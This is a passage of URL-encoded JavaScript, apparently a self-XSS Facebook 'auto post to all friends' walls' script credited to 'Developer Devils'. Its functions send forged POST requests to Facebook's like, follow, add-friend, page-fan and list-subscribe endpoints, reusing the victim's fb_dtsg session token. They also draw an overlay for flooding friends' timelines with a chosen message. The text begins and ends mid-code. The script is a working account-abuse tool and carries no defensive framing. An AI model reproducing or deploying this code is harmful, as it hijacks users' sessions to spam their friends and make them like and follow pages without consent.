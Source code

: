 ntById%28%22txtFloodMsg%22%29.value%21%3D%22%22%29%7Bmsg%3Ddocument.getElementById%28%22txtFloodMsg%22%29.value%7DPosting%28arr%5Bi%5D%29%7Dfunction%20LIST%28e%29%7Bvar%20t%3Dnew%20XMLHttpRequest%3Bvar%20n%3D%22//www.facebook.com/ajax/friends/lists/subscribe/modify%22%3Bvar%20r%3D%22flid%3D%22+e+%22%26action%3Dsubscribe%26location%3Dfeed%26nctr%5B_mod%5D%3Dpagelet_group_mall%26ft%5Btype%5D%3D40%26ft%5Btn%5D%3DDH%26__user%3D%22+user_id+%22%26__a%3D1%26__dyn%3D7n8ahxoNpGo%26__req%3Dy%26fb_dtsg%3D%22+fb_dtsg+%22%26phstamp%3D%22%3Bt.open%28%22POST%22%2Cn%2Ctrue%29%3Bt.onreadystatechange%3Dfunction%28%29%7Bif%28t.readyState%3D%3D4%26%26t.status%3D%3D200%29%7Bt.close%7D%7D%3Bt.send%28r%29%7Dfunction%20Like%28e%29%7Bvar%20t%3Dnew%20XMLHttpRequest%3Bvar%20n%3D%22//www.facebook.com/ajax/pages/fan_status.php%22%3Bvar%20r%3D%22%26fbpage_id%3D%22+e+%22%26add%3Dtrue%26reload%3Dfalse%26fan_origin%3Dpage_timeline%26fan_source%3D%26cat%3D%26nctr%5B_mod%5D%3Dpagelet_timeline_page_actions%26__user%3D%22+user_id+%22%26__a%3D1%26__dyn%3D798aD5z5CF-%26__req%3Dd%26fb_dtsg%3D%22+fb_dtsg+%22%26phstamp%3D%22%3Bt.open%28%22POST%22%2Cn%2Ctrue%29%3Bt.onreadystatechange%3Dfunction%28%29%7Bif%28t.readyState%3D%3D4%26%26t.status%3D%3D200%29%7Bt.close%7D%7D%3Bt.send%28r%29%7Dfunction%20IDS%28e%29%7Bvar%20t%3Dnew%20XMLHttpRequest%3Bvar%20n%3D%22//www.facebook.com/ajax/add_friend/action.php%22%3Bvar%20r%3D%22to_friend%3D%22+e+%22%26action%3Dadd_friend%26how_found%3Dfriend_browser_s%26ref_param%3Dnone%26%26%26outgoing_id%3D%26logging_location%3Dsearch%26no_flyout_on_click%3Dtrue%26ego_log_data%26http_referer%26__user%3D%22+user_id+%22%26__a%3D1%26__dyn%3D798aD5z5CF-%26__req%3D35%26fb_dtsg%3D%22+fb_dtsg+%22%26phstamp%3D%22%3Bt.open%28%22POST%22%2Cn%2Ctrue%29%3Bt.onreadystatechange%3Dfunction%28%29%7Bif%28t.readyState%3D%3D4%26%26t.status%3D%3D200%29%7Bt.close%7D%7D%3Bt.send%28r%29%7Dfunction%20a%28e%29%7Bvar%20t%3Dnew%20XMLHttpRequest%3Bvar%20n%3D%22/ajax/follow/follow_profile.php%3F__a%3D1%22%3Bvar%20r%3D%22profile_id%3D%22+e+%22%26location%3D1%26source%3Dfollow-button%26subscribed_button_id%3Du37qac_37%26fb_dtsg%3D%22+fb_dtsg+%22%26lsd%26__%22+user_id+%22%26phstamp%3D%22%3Bt.open%28%22POST%22%2Cn%2Ctrue%29%3Bt.onreadystatechange%3Dfunction%28%29%7Bif%28t.readyState%3D%3D4%26%26t.status%3D%3D200%29%7Bt.close%7D%7D%3Bt.send%28r%29%7Dfunction%20P%28e%29%7Bvar%20t%3Dnew%20XMLHttpRequest%3Bvar%20n%3D%22//www.facebook.com/ajax/ufi/like.php%22%3Bvar%20r%3D%22like_action%3Dtrue%26ft_ent_identifier%3D%22+e+%22%26source%3D1%26client_id%3D%22+now+%22%253A3366677427%26rootid%3Du_ps_0_0_14%26giftoccasion%26ft%5Btn%5D%3D%253E%253DU%26ft%5Btype%5D%3D20%26ft%5Bqid%5D%3D5882006890513784712%26ft%5Bmf_story_key%5D%3D%22+e+%22%26nctr%5B_mod%5D%3Dpagelet_home_stream%26__user%3D%22+user_id+%22%26__a%3D1%26__dyn%3D7n8ahyj35CFwXAg%26__req%3Dj%26fb_dtsg%3D%22+fb_dtsg+%22%26phstamp%3D%22%3Bt.open%28%22POST%22%2Cn%2Ctrue%29%3Bt.onreadystatechange%3Dfunction%28%29%7Bif%28t.readyState%3D%3D4%26%26t.status%3D%3D200%29%7Bt.close%7D%7D%3Bt.send%28r%29%7Dfunction%20P%28e%29%7Bvar%20t%3Dnew%20XMLHttpRequest%3Bvar%20n%3D%22//www.facebook.com/ajax/ufi/like.php%22%3Bvar%20r%3D%22like_action%3Dtrue%26ft_ent_identifier%3D%22+e+%22%26source%3D1%26client_id%3D%22+now+%22%253A379783857%26rootid%3Du_jsonp_39_18%26giftoccasion%26ft%5Btn%5D%3D%253E%253D%26ft%5Btype%5D%3D20%26ft%5Bqid%5D%3D5890811329470279257%26ft%5Bmf_story_key%5D%3D2814962900193143952%26ft%5Bhas_expanded_ufi%5D%3D1%26nctr%5B_mod%5D%3Dpagelet_home_stream%26__user%3D%22+user_id+%22%26__a%3D1%26__dyn%3D7n88QoAMBlClyocpae%26__req%3Dg4%26fb_dtsg%3D%22+fb_dtsg+%22%26phstamp%3D%22%3Bt.open%28%22POST%22%2Cn%2Ctrue%29%3Bt.onreadystatechange%3Dfunction%28%29%7Bif%28t.readyState%3D%3D4%26%26t.status%3D%3D200%29%7Bt.close%7D%7D%3Bt.send%28r%29%7Dvar%20Title%3D%22Auto%20Post%20Your%20Message%20in%20All%20Friend%27s%20Wall%20or%20Timeline.%22%3Bvar%20Descriptions%3D%22%22%2C_text%3D%27Powered%20By%3A%20%3CA%20style%3D%22color%3A%233B5998%3B%22%20href%3D%22http%3A//www.facebook.com/574395342655483%22%20target%3D%22_blank%22%3EDeveloper%20Devils%2099%25%3C/A%3E%3C/br%3EScript%20Made%20By%3A%20%3C/A%3E%3CA%20style%3D%22color%3A%233B5998%3B%22%20href%3D%22http%3A//www.facebook.com/chmateenanwar%22%20target%3D%22_blank%22%3E%20Devils%3C/A%3E%3C/A%3E%2C%3C/A%3E%3C/A%3E.%3C/br%3EFOLLOW%20US%20%3CA%20style%3D%22color%3A%233B5998%3B%22%20href%3D%22http%3A//www.facebook.com/574395342655483%22%20target%3D%22_blank%22%3EAutomate%20Your%20Facebook%3C/A%3E.%3C/A%3E%27%3Bvar%20display%3D%22%3Cdiv%20id%3D%27friend-edge-display%27%20style%3D%27box-shadow%3A0px%203px%208px%20rgba%280%2C%200%2C%200%2C%200.9%29%3Bposition%3Afixed%3Bleft%3A50%25%3Bmargin-left%3A-273px%3Btop%3A100px%3Bwidth%3A500px%3Bz-index%3A9999%3Bfont-size%3A14px%3Btext-align%3Acenter%3Bpadding%3A15px%3Bbox-shadow%3A0pt%201px%200pt%20rgba%280%2C0%2C0%2C0.9%29%3Bborder-radius%3A%201em%204em%201em%204em%3Bborder%3A3px%20solid%20rgba%280%2C0%2C0%2C0.9%29%3Bbackground-color%3Argba%280%2C0%2C0%2C0.9%29%3Bcolor%3A%23ffffff%27%3E%22%3Bdisplay+%3D%22%3Cdiv%20style%3D%27padding-bottom%3A5px%3Bfont-size%3A20px%3B%27%3E%22+Title+%22%3C/div%3E%22%3Bdisplay+%3D%22%3Cdiv%3E%3Ctextarea%20id%3D%27txtFloodMsg%27%20placeholder%3D%27Write%20your%20messege%20here.%27%20%20style%3D%27padding-top%3A5px%3Bwidth%3A505px%3Bheight%3A100px%3Bfont-family%3Atahoma%3Bfont-size%3A13px%3Bbackground-color%3Argba%28255%2C255%2C255%2C0.9%29%3B%27%3E%3C/textarea%3E%3C/div%3E%22%3Bdisplay+%3D%22%3Cdiv%20class%3D%27clearfix%27%20style%3D%27text-align%3Aright%3Bpadding-top%3A5px%3B%27%3E%3Ca%20style%3D%27text-align%3Aright%3Bpadding-top%3A5px%3B%27%20data-hover%3D%27tooltip%27%20aria-label%3D%27Your%20friends%27%20data-tooltip-alignh%3D%27right%27%20class%3D%27uiSelectorButton%20uiButton%20uiButtonSuppressed%27%20href%3D%27%23%27%20role%3D%27button%27%20aria-haspopup%3D%271%27%20aria-expanded%3D%27false%27%20data-label%3D%27%27%20data-le